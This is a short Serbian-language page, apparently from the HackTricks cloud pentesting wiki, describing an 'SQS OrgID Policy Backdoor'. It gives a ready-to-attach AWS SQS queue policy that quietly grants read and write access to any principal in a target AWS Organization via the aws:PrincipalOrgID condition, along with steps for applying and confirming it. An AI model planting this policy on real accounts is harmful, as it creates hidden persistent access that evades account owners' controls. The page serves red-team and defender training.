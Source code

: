 # AWS - SQS OrgID Policy Backdoor

{{#include ../../../../banners/hacktricks-training.md}}

Iskoristite resource policy SQS reda da tiho dodelite Send, Receive i ChangeMessageVisibility bilo kojem principalu koji pripada ciljnoj AWS Organization koristeći uslov aws:PrincipalOrgID. Ovo stvara skrivenu putanju ograničenu na organizaciju (org-scoped) koja često zaobilazi kontrole koje gledaju samo eksplicitne account ili role ARNs ili star principals.

### Backdoor policy (prikačite na SQS queue policy)
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "OrgScopedBackdoor",
"Effect": "Allow",
"Principal": "*",
"Action": [
"sqs:ReceiveMessage",
"sqs:SendMessage",
"sqs:ChangeMessageVisibility",
"sqs:GetQueueAttributes"
],
"Resource": "arn:aws:sqs:REGION:ACCOUNT_ID:QUEUE_NAME",
"Condition": {
"StringEquals": { "aws:PrincipalOrgID": "o-xxxxxxxxxx" }
}
}
]
}
```
### Koraci
- Nabavite ID organizacije pomoću AWS Organizations API.
- Dohvatite ARN SQS queue-a i postavite queue policy uključujući gore navedenu izjavu.
- Sa bilo kog principal-a koji pripada toj organizaciji, pošaljite i primite poruku u SQS queue-u da biste potvrdili pristup.

### Uticaj
- Skriveni pristup u celoj organizaciji za čitanje i pisanje SQS poruka sa bilo kog naloga u navedenoj AWS Organization.

{{#include ../../../../banners/hacktricks-training.md}}
